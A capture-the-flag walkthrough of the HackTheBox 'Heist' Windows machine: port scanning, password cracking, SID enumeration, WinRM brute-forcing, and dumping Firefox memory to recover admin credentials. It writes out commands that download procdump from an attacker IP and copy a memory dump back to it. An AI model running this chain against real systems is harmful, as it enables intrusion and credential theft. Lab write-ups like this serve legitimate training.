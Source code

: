 ```yaml
---
title: "HackTheBox Walkthrough - Heist"
categories:
  - Hackthebox
tags:
  - hackthebox
  - htb
  - impacket
  - winrm
  - pscp
  - windows
classes: wide
---
```


![SplashScreen](https://opalsec.github.io/assets/images/heist/Card.png)

# Overview:

A pretty challenging box that required me to think laterally and use a few tools I wouldn't normally think to pull out. It was a really fun solve, and I learned a lot along the way. Definitely recommend if you're trying to get more experience on Windows machines and exploiting user behaviour.
<!--more-->
# Enumeration
Start with an nmap scan to identify listening ports and services:

```
nmap -sS -sV -sC -vv -Pn -oA /home/montana/Documents/hackthebox/heist/allscan 10.10.10.149
```

Providing us with this:
```
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -2m50s, deviation: 0s, median: -2m50s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 29066/tcp): CLEAN (Timeout)
|   Check 2 (port 48515/tcp): CLEAN (Timeout)
|   Check 3 (port 25486/udp): CLEAN (Timeout)
|   Check 4 (port 29605/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-25 11:40:08
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 25 11:43:35 2019 -- 1 IP address (1 host up) scanned in 421.73 seconds
```

## Web Page

My first stop is the web page, and here we a login form - helpfully with the option to "Login as guest":
![LoginForm](https://opalsec.github.io/assets/images/heist/LoginForm.png)

Which shows us a conversation chain between a client and support admin:
![Chat](https://opalsec.github.io/assets/images/heist/Chat.png)

Clicking through to the attachment, it shows a router config:
![config](https://opalsec.github.io/assets/images/heist/config.png)

The first two type 7 passwords easily decrypt to:
- $uperP@ssword (rout3r)
- Q4)sJu\Y8qz*A3?d (admin)

After a little research, I found out that the secret 5 password can be cracked by John, so I fired it up:
```
root@kali:/home/montana/Documents/hackthebox/heist# john -wordlist:/usr/share/wordlists/rockyou.txt secret.txt
```

And checked the pot file upon completion to get the password:
```
root@kali:/home/montana/Documents/hackthebox/heist# cat ~/.john/john.pot
$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent
```

Unfortunately the login page only accepts email addresses, and we only have passwords and usernames from the work we just did.

## Digging Deeper

Trying both anonymous logon and combinations of the creds we just dumped didn't work on 445. Going back to the web chat that we saw earlier though, we can see the user Hazard asked the support admin to create an account for him on the Windows server! 

Trying the cracked secret-type creds, we're able to see the account exists:
![hazard](https://opalsec.github.io/assets/images/heist/hazard.png)

Unfortunately there's nothing we can do with that access, so where to from here?

### New box hu dis?

Impacket has an amazing set of python scripts that are part of every pentester's kit. 

The one we'll use is the SID enumeration script - this allows you to enumerate other users on a machine, provided you've got a valid account to authenticate with:
![impacket](https://opalsec.github.io/assets/images/heist/impacket.png)

Now that we've discovered a whole swathe of new users, we can try to bruteforce authentication by creating a list of users and creds that we've found.

# Exploitation 

Metasploit has a useful module under auxiliary/scanner/winrm/winrm_login. This does exactly what we want in that you can point it to a machine's WinRM service, give it a list of creds, and set it loose.

It quickly shows that we've got a valid set of creds to use to initiate a WinRM session with:
![winrm](https://opalsec.github.io/assets/images/heist/winrm.png)

## User
In order to use this, there's a great tool called evil-winrm, which you can download [here](https://github.com/Hackplayers/evil-winrm "Evil WinRM")

It's simple to use, and gets us an interactive session:
![session](https://opalsec.github.io/assets/images/heist/session.png)

## Root
As part of my enum process, I like to look at the running processes to see if there's anything anomalous that might be of interest:
```
Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id
```
![procs](https://opalsec.github.io/assets/images/heist/procs.png)

Firefox stands out in this instance, as you wouldn't expect to see a browser running on a server.

The easiest way to snoop on what's going on in those processes is to dump them, so I download [Windows' procdump utility](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump "Procdump") to my Kali machine; host it with Python's Simple HTTP Server, and retrieve it on the victim:

```
Simple HTTP Server (starts on Port 8000 by default):
$> python -m SimpleHTTPServer

Retrieving the file with PowerShell:
PS> powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.24:8000/procdump64.exe', 'C:\Users\chase\Documents\procdump64.exe')"
```

I then use it to dump the Firefox processes like so:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> ./procdump64.exe -ma -accepteula 6216 firefox_6216.dmp                                                                                            
                                                                                                                                                                        
ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com                                                                    

[06:30:02] Dump 1 initiated: C:\Users\Chase\Documents\firefox_6216.dmp
[06:30:02] Dump 1 writing: Estimated dump file size is 470 MB.
[06:30:02] Dump 1 complete: 470 MB written in 0.6 seconds
[06:30:02] Dump count reached.
```

And in order to retrieve them, I use [pscp](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html "Putty SCP"). I ran into a few issues with pscp not prompting me for input to trust the remote host and input the password, but I got around it by using the below syntax:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> echo y | ./pscp.exe -pw <password> C:\Users\Chase\Documents\firefox_6216.dmp montana@10.10.14.24:/home/montana/Documents/hackthebox/heist

### Echoing "y" accepted the remote host as trusted, and the -pw parameter bypassed the need to interactively enter the password when connecting
```

Now with the files back on Kali, I used grep to search for the "password" string:
![grep](https://opalsec.github.io/assets/images/heist/grep.png)

And inspect the file the string was found in:
![less](https://opalsec.github.io/assets/images/heist/less.png)

Searching within the file, I can see the Admin user's creds in cleartext, being used to authenticate to the web forum:
![rootpw](https://opalsec.github.io/assets/images/heist/rootpw.png)

Finally, I drop out of the existing User WinRM session, and authenticate with the Admin creds:
```
root@Cortana:/opt/evil-winrm# ruby evil-winrm.rb -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'
```

And we find the final flag on the Admin's Desktop:
![flag](https://opalsec.github.io/assets/images/heist/flag.png)

### By the way...
PowerShell does have the ability to search for a string in a file, but I didn't want to do that for several reasons

1. Searching for the string "password" in a memory dump for a browser process would likely provide dozens of results, as it'd parse the HTML of pages that were loaded and give a bunch of false positives;
2. It's best not to do computationally expensive things on the victim machine - both because it could use enough resources to cause lag and prompt the user to check what's going on, but also because it could crash the box if it's already running at high load;
3. If this were an actual engagement, the dump would be an important piece of evidence for use in results, so you'd want a copy on your workstation anyway for posterity.

I get that this was a virtual lab, but since I'm using it as practice for real-world scenarios, I think it's best to practice OpSec whenever possible. 